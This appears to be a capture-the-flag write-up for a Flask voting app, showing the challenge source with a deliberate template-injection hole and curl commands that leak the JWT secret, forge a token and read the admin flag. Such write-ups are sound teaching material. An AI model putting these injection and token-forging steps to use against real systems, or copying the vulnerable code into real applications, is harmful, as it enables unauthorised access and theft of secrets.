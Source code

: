 ```yaml
---
layout: writeup
title: Template Token
tags: WebX
---
```


## Description

The citizens are voting, but it’s not the votes that matter - it’s the system that counts them.

Cast your vote, inspect the results… but is that all there is?

Your mission? Break into the admin panel and uncover the flag.

http://redac.ted:5000/

This challenge also provided the `app.py` file


## Solution

Here is the app.py file:

```python
import jwt
import datetime
import os
import re
from flask import Flask, render_template, render_template_string, request, jsonify
from functools import wraps
from dotenv import load_dotenv
from utils import db

load_dotenv()
app = Flask(__name__)

# secret key for our JWT signing! no one should know this
SECRETKEY = os.getenv("SECRETKEY")

def token_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):
        token = None

        auth_header = request.headers.get("Authorization", None)
        if auth_header and auth_header.startswith("Bearer "):
            token = auth_header.split()[1]

        if not token:
            return jsonify({"message":"Token is missing"}), 401

        try:
            payload = jwt.decode(token, SECRETKEY, algorithms=["HS256"])
            request.jwt_payload = payload

        except jwt.ExpiredSignatureError:
            return jsonify({"message":"Token has expired"}), 401

        except jwt.InvalidTokenError:
            return jsonify({"message":"Token is invalid"}), 401

        return f(*args, **kwargs)

    return wrapper

@app.route("/")
def home():
    return render_template("home.html")

@app.route("/admin")
@token_required
def admin():
    try:
        with open("/flag", "r") as f:
            flag_content = f.read().strip()
    except Exception:
        flag_content = "Unable to read /flag."

    return render_template("admin.html", flag=flag_content)

# sanitisation to prevent XSS and other injection attacks
def sanitize_input(user_input: str) -> str:
    return re.sub(r"[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]", "", user_input)

from utils import db  # make sure utils/db.py exists and is imported
# ...

@app.route("/vote", methods=["GET", "POST"])
def vote():
    if request.method == "GET":
        # Get candidates from the DB
        candidates = db.fetch_all_candidates()
        return render_template("vote.html", candidates=candidates)

    # POST: register vote
    candidate_raw = request.form.get("candidate", "")
    candidate = sanitize_input(candidate_raw)

    # Record the vote in the DB
    db.add_vote(username='voter', candidate_id=candidate)

    # Confirmation page
    template_source = f"""
	{% raw %}
    {{% extends "base.html" %}}
    {{% block content %}}
      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>{candidate}</strong></p>

      </div>
    {{% endblock %}}
	{% endraw %}
    """
    return render_template_string(template_source, **globals())

app.run(host="0.0.0.0", port=5000, debug=True)
```

This is a pretty simple website. There is an `index` page, a `vote` page and an `admin` page. 

In order to see the admin page which has the flag on it, you need a valid JWT token which only allows the `HS256` algorithm and uses a set key, so there are no vulnerabilities there.

The index page just serves a static HTML page, so no vulnerability there

Finally, the vote page gets the user's input, sanitises it, and then displays a page with the said input on it.

Just a quick glance at how the vote page displays the user's input reveals a vulnerability. Instead of using jinja like your supposed to, the program gives the template all globals, and also the user's input is passed in through an f-string in python instead of specifically in jinja. This means that as long as we can get around the sanitisation, we can input jinja code into the template that will be executed. This could be useful for outputing any certain global variables... such as the `SECRETKEY` global variable.

The neccessary jinja to output the secret key would be `{{SECRETKEY}}` lets see if we can get this around the sanitisation.

Lukcily it is a horrible sanitisation method where any of these charcater `[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]` are removed from the string. Luckily `{` and `}` are not in this list, meaning we just need to vote for `{{SECRETKEY}}` and we get the secret key to sign our own JWT token and login to the admin page which gets us the flag.

```bash
$ curl -X POST "http://re.da.ct.ed:5000/vote" -d "candidate={{SECRETKEY}}"

    <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>ldidyouknowthatshinigamisloveapples</strong></p>

      </div>

    </div>
  </body>
</html>
```

There is the secret key `ldidyouknowthatshinigamisloveapples`

so just some quick python in the terminal using `PyJWT` in order to create out own jwt token

```python
>>> import jwt
>>> jwt.encode({}, "ldidyouknowthatshinigamisloveapples", algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ'
```

The token checker just makes sure the token is properly signed, not that any info in it is correct, so I just signed an empty payload

Now time to make the request with the token

```bash
$ curl "http://re.da.ct.ed:5000/admin" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

  <h1>Admin Dashboard</h1>

  <p style="color: green; font-weight: bold;">
    FLAG: secedu{h0ld_my_s1gn4tur3s_pl34s3}
  </p>

    </div>
  </body>
</html>
```

There's the flag for us `secedu{h0ld_my_s1gn4tur3s_pl34s3}`
